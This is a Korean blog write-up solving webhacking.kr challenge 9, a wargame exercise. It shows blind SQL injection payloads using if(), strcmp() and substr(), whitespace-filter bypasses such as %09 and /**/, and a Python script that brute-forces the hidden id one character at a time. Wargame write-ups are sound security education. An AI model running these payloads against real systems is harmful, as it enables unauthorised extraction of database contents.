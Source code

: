 ```yaml
---
title: "webhacking.kr 9번 문제 풀이"
excerpt_separator: "<!--more-->"
categories:
  - webhacking
tags:
  - webhacking
  - wargame
classes: wide
---
```


[9번 바로가기](http://webhacking.kr/challenge/web/web-09/index.php)

문제 페이지에 들어가면 아래와 같은 화면이 나온다. password를 알맞게 입력하면 문제가 풀리는 방식인듯 하다.

![9번](/img/9번_1.JPG)

입력창 위에 숫자를 누르면 다른 화면이 보인다. URL을 잘 보면 no라는 인자에 클릭한 숫자가 들어가 있다.
`no=1`일 때는 "Apple", `no=2`일 때는 "Banana"가 출력되고, `no=3`일 때는 hint가 나온다.

![9번](/img/9번_3.JPG)

길이가 11이고, DB의 컬럼은 no, id가 있다고 알려주고 있다. no에 들어가는 값을 조작해서 id에 있는 값을
알아내면 되는것 같다.


`no=True`를 url에 입력하니, "Apple"이 나온다. `'`나, 공백문자, `union` 등 쿼리에 사용되는 일부 문자열을 입력하면 "Access Denied"라고 나온다.
no가 number형 필드이기 때문에 `if`문을 이용해 조건에 따라 `no`에 들어가는 값을 다르게 지정하여 Blind SQLi를 할 수 있다.


 `if(True,1,2)`를 넣으면 "Apple"이 나오고, `if(False,1,2)`를 넣으면 "Banana"가 나온다. `if`문 필터링되지 않고 정상적으로 사용할 수 있다.


일단 길이가 11이라고 했으니 id의 길이가 11인지 보자. 공백문자가 필터링되니까, `%09`, `%0a`, `%0d`, `/**/` 등을 사용하면 된다. 각각 탭, 라인피드, 캐리지리턴, 주석을 의미한다.
주석의 경우 `SELECT/**/col` 이렇게 쓰면 `SELECT col`와 동일하게 인식된다. `()`를 사용해서 `SELECT(col)from(talbe)` 이런식으로 해도 된다.


`if`문은 `if(조건, 참일 경우의 값, 거짓일 경우의 값)`으로 사용되는데 프로그래밍언어의 3항 연산자랑 비슷하다.
`if((length(id))in(11),1,2)` 이렇게 입력해보자, 테이블명은 여기서 지정하지 않아도 된다.
내부에서 쿼리가 `select * from table where no = if()` 이런식으로 들어가기 때문에 `select`문과 같은 테이블이면 지정할 필요가 없다.
결과는 `no=2`이 되어 "Banana"가 나온다. 길이가 11이 아니라고 나온다... 우선 `id`에 어떤 값이 있는지 찾아 보자.

![9번](/img/9번_2.JPG)


`if(strcmp(substr(id,1,1),0x41),0,3)` 이렇게 입력하면 id에 있는 첫 번째 문자가 0x41(A)인지 확인할 수 있다.
`substr()`의 1번 인자는 문자열, 2번 인자는 시작위치(1부터 시작), 3번 인자는 시작위치부터 읽을 길이이다.
`if`문이 참이라면 `no=3`이되어 "Secret\nhint:..."가 나올 것이다.
`strcmp()`는 문자열이 서로 같으면 0이 리턴되기 때문에 `if`문에 값을 반대로 적어야 한다. `strcmp()`말고 `if(substr(id,1,1)in(0x41),0,3)`이런식으로 `in()`을 사용할 수 도 있다.
혹은 `if(substr(id,1,1)like(0))` 이런식으로 `like()`함수를 이용할 수 있다. 이때는 `like()`함수에 이용되는 `%`와 같은 문자는 사용하면 안된다.


결과적으로 아래의 코드를 실행하면 Flag를 얻을 수 있다. `if((length(id))in(11),1,2)`을 통해 확인했을 때는 id의 길이가 11이 아니라고 나오지만
코드로 확인해보면 `if(strcmp(substr(id,12,1),0x41),0,3)` 처럼 id의 12번째 이상의 값은 아스키 문자 중 매칭되는 것이 없었다.


```python
import urllib.request
import re

header = {'Cookie':'PHPSESSID=본인 세션쿠키'}
code = [x for x in range(39, 127)]

for i in range(1, 12):
    for c in code:
        req = urllib.request.Request("http://webhacking.kr/challenge/web/web-09/index.php?no=if(strcmp(substr(id," + str(i) + ",1)," + hex(c) + "),0,3)", headers=header)
        data = urllib.request.urlopen(req).read()
        data = data.decode('UTF-8')
        find = re.findall('Secret', data)
        if find:
            print(str(i) + ' ' + chr(c))
            break
```
